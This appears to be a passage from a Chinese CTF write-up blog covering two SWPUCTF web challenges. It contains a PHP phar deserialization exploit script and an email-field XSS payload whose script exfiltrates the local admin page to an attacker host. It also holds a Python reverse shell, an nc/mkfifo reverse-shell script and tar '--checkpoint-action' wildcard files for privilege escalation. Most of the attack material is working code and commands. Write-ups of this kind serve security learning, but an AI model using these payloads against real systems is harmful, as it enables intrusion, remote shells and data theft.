<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">C1e4r</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $test;</span><br><span class="line">    <span class="keyword">public</span> $str;</span><br><span class="line">&#125;</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Test</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $file;</span><br><span class="line">    <span class="keyword">public</span> $params;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__construct</span><span class="params">()</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">$this</span>-&gt;params = <span class="keyword">array</span>();</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">__get</span><span class="params">($key)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">return</span> <span class="keyword">$this</span>-&gt;get($key);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">get</span><span class="params">($key)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        <span class="keyword">if</span>(<span class="keyword">isset</span>(<span class="keyword">$this</span>-&gt;params[$key])) &#123;</span><br><span class="line">            $value = <span class="keyword">$this</span>-&gt;params[$key];</span><br><span class="line">        &#125; <span class="keyword">else</span> &#123;</span><br><span class="line">            $value = <span class="string">"index.php"</span>;</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="keyword">return</span> <span class="keyword">$this</span>-&gt;file_get($value);</span><br><span class="line">    &#125;</span><br><span class="line">    <span class="keyword">public</span> <span class="function"><span class="keyword">function</span> <span class="title">file_get</span><span class="params">($value)</span></span></span><br><span class="line"><span class="function">    </span>&#123;</span><br><span class="line">        $text = base64_encode(file_get_contents($value));</span><br><span class="line">        <span class="keyword">return</span> $text;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="class"><span class="keyword">class</span> <span class="title">Show</span></span></span><br><span class="line"><span class="class"></span>&#123;</span><br><span class="line">    <span class="keyword">public</span> $source;</span><br><span class="line">    <span class="keyword">public</span> $str;</span><br><span class="line">&#125;</span><br><span class="line">$phar = <span class="keyword">new</span> Phar(<span class="string">"phar.phar"</span>); <span class="comment">//后缀名必须为phar</span></span><br><span class="line">$phar-&gt;startBuffering();</span><br><span class="line">$phar-&gt;setStub(<span class="string">"&lt;?php __HALT_COMPILER(); ?&gt;"</span>); <span class="comment">//设置stub</span></span><br><span class="line">$t = <span class="keyword">new</span> Test();</span><br><span class="line">$t-&gt;params = <span class="keyword">array</span>(<span class="string">"source"</span>=&gt;<span class="string">"/var/www/html/f1ag.php"</span>);</span><br><span class="line">$s = <span class="keyword">new</span> Show();</span><br><span class="line">$s-&gt;str = <span class="keyword">array</span>(<span class="string">"str"</span>=&gt;$t);</span><br><span class="line">$c = <span class="keyword">new</span> C1e4r();</span><br><span class="line">$c-&gt;str = $s;</span><br><span class="line">$phar-&gt;setMetadata($c); <span class="comment">//将自定义的meta-data存入manifest</span></span><br><span class="line">$phar-&gt;addFromString(<span class="string">"test.txt"</span>, <span class="string">"test"</span>); <span class="comment">//添加要压缩的文件</span></span><br><span class="line"><span class="comment">//签名自动计算</span></span><br><span class="line">$phar-&gt;stopBuffering();</span><br></pre></td></tr></table></figure>
<p>构造phar后使用phar协议进行访问：</p>
<figure class="highlight"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">http://120.79.158.180:11115/file.php?file=phar:///var/www/html/upload/5a1487d0a7b28733c4f8ddafdeb41f4e.jpg</span><br></pre></td></tr></table></figure>
<p>解密返回的base64编码得到flag:</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">&lt;?php</span></span><br><span class="line">	$flag = <span class="string">'SWPUCTF&#123;Php_un$eri4liz3_1s_Fu^!&#125;'</span>;</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>
<h2 id="有趣的邮箱注册"><a href="#有趣的邮箱注册" class="headerlink" title="有趣的邮箱注册"></a>有趣的邮箱注册</h2><p>查看页面源码发现注释代码：</p>
<figure class="highlight php"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br></pre></td><td class="code"><pre><span class="line">&lt;!--check.php</span><br><span class="line"><span class="keyword">if</span>($_POST[<span class="string">'email'</span>]) &#123;</span><br><span class="line">$email = $_POST[<span class="string">'email'</span>];</span><br><span class="line"><span class="keyword">if</span>(!filter_var($email,FILTER_VALIDATE_EMAIL))&#123;</span><br><span class="line"><span class="keyword">echo</span> <span class="string">"error email, please check your email"</span>;</span><br><span class="line">&#125;<span class="keyword">else</span>&#123;</span><br><span class="line"><span class="keyword">echo</span> <span class="string">"等待管理员自动审核"</span>;</span><br><span class="line"><span class="keyword">echo</span> $email;</span><br><span class="line">&#125;</span><br><span class="line">&#125;</span><br><span class="line"><span class="meta">?&gt;</span></span><br></pre></td></tr></table></figure>
<p>参考Ph师傅<a href="https://www.leavesongs.com/PENETRATION/some-tricks-of-attacking-lnmp-web-application.html" target="_blank" rel="noopener">攻击LNMP架构Web应用的几个小Tricks</a>中的绕过技巧，构造如下email可反弹xss</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">"a<span class="tag">&lt;<span class="name">script</span>/<span class="attr">src</span>=<span class="string">//your_ip_address/myjs/xss.js</span>&gt;</span><span class="tag">&lt;/<span class="name">script</span>&gt;</span>a"@example.com</span><br></pre></td></tr></table></figure>
<p>admin页面只允许从本地登录，使用xss反弹后无法获取cookie，所以直接xss请求后台页面返回页面内容，构造的xss.js内容如下：</p>
<figure class="highlight js"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">//上方包含Jquery源码，省略</span></span><br><span class="line"><span class="keyword">var</span> xss_url=<span class="string">'http://your_ip/index.php'</span>;</span><br><span class="line">    <span class="comment">//admin page</span></span><br><span class="line">    $.get(<span class="string">"http://localhost:6324/admin/admin.php"</span>,<span class="keyword">async</span>=<span class="literal">false</span>,<span class="function"><span class="keyword">function</span>(<span class="params">result</span>)</span>&#123;</span><br><span class="line">        $.post(xss_url,data=<span class="string">"admin_content="</span>+result,<span class="keyword">async</span>=<span class="literal">false</span>);</span><br><span class="line">    &#125;);</span><br></pre></td></tr></table></figure>
<p>收到页面内容为：</p>
<figure class="highlight html"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="tag">&lt;<span class="name">br</span> /&gt;</span><span class="tag">&lt;<span class="name">a</span> <span class="attr">href</span>=<span class="string">"admin/a0a.php?cmd=whoami"</span>&gt;</span></span><br></pre></td></tr></table></figure>
<p>继续xss访问a0a.php并传递参数发现可以任意执行命令，wget一个py脚本到/tmp目录下并运行可以反弹shell</p>
<figure class="highlight python"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#!/usr/bin/python</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">import</span> socket,subprocess,os;</span><br><span class="line">s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);</span><br><span class="line">s.connect((<span class="string">"your_ip"</span>,<span class="number">8000</span>));</span><br><span class="line">os.dup2(s.fileno(),<span class="number">0</span>);</span><br><span class="line">os.dup2(s.fileno(),<span class="number">1</span>);</span><br><span class="line">os.dup2(s.fileno(),<span class="number">2</span>);</span><br><span class="line">p=subprocess.call([<span class="string">"/bin/sh"</span>,<span class="string">"-i"</span>]);</span><br></pre></td></tr></table></figure>
<p>连接shell后发现当前用户为www-data，而/flag属于flag用户，所以无法直接读取flag，查看/var/www/html/目录</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">drwxr-xr-x 4 root root  4096 Dec 19 22:46 .</span><br><span class="line">drwxr-xr-x 3 root root  4096 Dec 18 13:34 ..</span><br><span class="line">drwxr-xr-x 6 root root  4096 Dec 19 19:03 4f0a5ead5aef34138fcbf8cf00029e7b</span><br><span class="line">-rw-r--r-- 1 root root 11246 Dec 13 14:12 sp4rk.jpg</span><br><span class="line">-rw-r--r-- 1 root root  7028 Dec 12 20:31 style.css</span><br><span class="line">dr-xr-xr-x 3 root root  4096 Dec 18 14:27 www</span><br></pre></td></tr></table></figure>
<p>发现存在4f0a5ead5aef34138fcbf8cf00029e7b目录，查看进程</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line">flag     17493  0.0  0.6 265620 11620 ?        S    Dec19   0:01 php-fpm: pool flag</span><br><span class="line">flag     20111  0.0  0.6 265620 11620 ?        S    Dec19   0:00 php-fpm: pool flag</span><br><span class="line">flag     24772  0.0  0.6 265620 11620 ?        S    Dec19   0:00 php-fpm: pool flag</span><br><span class="line">www-data 26807  0.0  0.6 265748 12004 ?        S    05:45   0:00 php-fpm: pool www</span><br><span class="line">www-data 26808  0.0  0.5 265620 11116 ?        S    05:45   0:00 php-fpm: pool www</span><br><span class="line">www-data 26809  0.0  0.5 265620 11116 ?        S    05:45   0:00 php-fpm: pool www</span><br></pre></td></tr></table></figure>
<p>发现以flag与www-data用户分别运行着php-fpm服务，查看nginx配置文件可知4f0a5ead5aef34138fcbf8cf00029e7b目录下的文件以flag用户权限运行，需要从该目录下获取权限以查看flag，该目录下存在上传与压缩功能，根据源码，参考<a href="https://www.freebuf.com/articles/system/176255.html" target="_blank" rel="noopener">利用通配符进行Linux本地提权</a>，生成payload</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">echo "mkfifo /tmp/lhennp; nc 192.168.1.102 8888 0&lt;/tmp/lhennp | /bin/sh &gt;/tmp/lhennp 2&gt;&amp;1; rm /tmp/lhennp" &gt; shell.sh</span><br><span class="line">echo "" &gt; "--checkpoint-action=exec=sh shell.sh"</span><br><span class="line">echo "" &gt; --checkpoint=1</span><br></pre></td></tr></table></figure>
<p>上传生成的3个文件并进行备份操作即可反弹shell，读取flag<code>swpuctf{xss_!_tar_exec_instr3st1ng}</code></p>

            </div>
          
        
            <footer class="post-footer">
                <class class="pull-left tag-list">
                    <i class="fa fa-folder-open-o"></i>
                    
                        <a href="/tags/ctf/">ctf</a>
                      
                        <a href="/tags/writeup/">writeup</a>
                      
                </class>
            </footer>
        
</article>
                <footer class="footer-info">
    <div class="footer-left">
        <i class="fa fa-copyright"></i>2019 zer0i3
    </div>
    <div class="footer-right">
        <a href="https://hexo.io">Hexo</a>
        <span>Theme</span>
        <a href="https://github.com/zer0i3/hexo-theme-zob">zob</a>
        <span>by <i class="fa fa-heart"></i>zer0i3</span>
    </div>
</footer>
            </main>
        </div>
    </div>
</body>
</html>